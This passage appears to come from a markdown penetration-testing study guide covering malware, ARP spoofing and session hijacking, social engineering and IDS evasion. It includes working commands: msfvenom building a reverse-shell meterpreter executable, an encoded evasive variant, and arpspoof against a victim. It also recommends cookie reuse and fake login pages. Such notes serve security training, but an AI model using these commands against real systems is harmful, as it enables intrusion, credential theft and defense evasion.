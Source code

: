 Use `mimikatz`, `crackmapexec`, and `impacket` tools for exploitation

---

## ☠️ PHASE 6: Malware Threats

### 📦 Types
- Keyloggers, Backdoors, Trojans
- Rootkits (kernel-level persistence)
- Ransomware (file encryption + extortion)

### 🛠 Tools
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > evil.exe
```
Obfuscate with `veil` or `obfuscator.io`

---

## 🌐 PHASE 7: Network Sniffing & Session Hijacking

### 🧰 Tools
- `Wireshark`, `tcpdump`, `dsniff`, `ettercap`

### 🧪 Example (ARP Spoofing)
```bash
arpspoof -t victimIP gatewayIP
```
Capture session cookies and reuse in Burp for hijacking

---

## 🎭 PHASE 8: Social Engineering

### ⚔️ Techniques
- Phishing (email + payload)
- Pretexting (impersonation)
- Vishing (voice phishing)

Use `setoolkit` to create fake login pages or payload delivery sites.

---

## 🕵️ PHASE 9: Evading IDS, Firewalls & Honeypots

### 🧠 Strategies
- Obfuscate payloads:
```bash
msfvenom -p payload -e x86/shikata_ga_nai -i 5 -f exe > evasive.exe
```
- Encode payloads in Base64 or Hex
- Time-based evasion: `--delay` in `sqlmap`, throttling `ffuf`
- Use randomized headers or fragment requests

---